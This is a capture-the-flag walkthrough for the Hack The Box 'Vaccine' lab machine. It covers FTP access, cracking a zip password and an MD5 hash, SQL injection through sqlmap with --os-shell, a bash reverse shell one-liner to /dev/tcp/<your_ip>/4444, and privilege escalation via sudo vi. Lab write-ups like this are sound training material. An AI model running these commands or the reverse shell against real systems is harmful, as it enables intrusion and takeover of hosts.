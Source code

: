 Hack The Box :: Starting Point :: Vaccine :: Linux

# Enumeration

**Note**: this starting point machine only features a `root.txt`
We begin by running an Nmap scan.
`nmap -sC -sV 10.10.10.46`

[nmap.webp](../_resources/5b87d89820f7dbdd535e804c6161d8c1.webp)

Running a simple Nmap scan reveals three open ports running, for FTP, SSH and Apache respectively.

The credentials `ftpuser / mc@F1l3ZilL4` can be used to login to the FTP server.

[ftp.webp](../_resources/3ba3eaf2b094623b3207deaa80d33669.webp)

A file named `backup.zip` is found in the folder. Extraction of the archive fails as it's password protected. The password can be cracked using JohntheRipper and rockyou.txt.

[image-20200203173115021.webp](../_resources/b35b201af810ad5e9b0f4d711f2133f1.webp)

The password is found to be `741852963`. Extracting it's contents using the password reveals a PHP file and a CSS file.

[image-20200203173250433-1580733292764.webp](../_resources/eda6ef9ad2243e157f54f49fdcb414a2.webp)

Looking at the PHP source code, we find a login check.

	<?php
	session_start();
	  if(isset($_POST['username']) && isset($_POST['password'])) {
	    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {                                                                       $_SESSION['login'] = "true";
	      header("Location: dashboard.php");
	    }
	  }
	?>

The input password is hashed and compared to the MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`. This hash can be easily cracked using an online rainbow table such as crackstation.

[image-20200203173503825.webp](../_resources/80a9cb0cf5b6906d3fdd5f9d0a35850a.webp)

The password is cracked as `qwerty789`.

# Foothold

Browsing to port 80, we can see a login page for MegaCorp.

[login.webp](../_resources/3d06ad949982bc1f6b83990ef337a343.webp)

The credentials `admin / qwerty789` can be used to login.

[dashboard.webp](../_resources/34a7e08ec60b35c72824efcd9c9f8b0e.webp)

The page is found to host a `Car Catalogue`, and contains functionality to search for products. Searching for a term results in the following request.

`http://10.10.10.46/dashboard.php?search=a`

The page takes in a GET request with the parameter `search`. This URL is supplied to sqlmap, in order to test for SQL injection vulnerabilities. The website uses cookies, which can be specified using `--cookie`.

Right-click the page and select `Inspect Element`. Click the `Storage` tab and copy the PHP Session ID.

[cookie.webp](../_resources/02c0f8870f76c0355e6059a42806cf74.webp)

We can construct the Sqlmap query as follows:

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

[sqlmap.webp](../_resources/468d925659cbc7ac2e90bd1e7776a028.webp)

Sqlmap found the page to be vulnerable to multiple injections, and identified the backend DBMS to be PostgreSQL. Getting code execution in postgres is trivial using the `--os-shell` command.

[os-shell.webp](../_resources/174df6dcf49e21c4a9cabfa4b958a2b6.webp)

This can be used to execute a bash reverse shell.
`bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`

[reverse-shell.webp](../_resources/6588b78f431dbcf2bd71ccf64c29a219.webp)

# Privilege Escalation

Let's upgrade to a tty shell and continue enumeration.
`SHELL=/bin/bash script -q /dev/null`

Looking at the source code of `dashboard.php` in `/var/www/html` reveals the postgres password to be: `P@s5w0rd!`.

	try {
	   $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	 }

This password can be used to view the user's sudo privileges.

[image-20200204173955748.webp](../_resources/5c3865f5e0b622278829c77168e50571.webp)

The user is allowed to edit the configuration `/etc/postgresql/11/main/pg_hba.conf` using vi. This can be leveraged to gain a root shell and access root.txt.

[image-20200203180325408.webp](../_resources/33b19bc4bef56ef16eda96c1ab9a2d47.webp)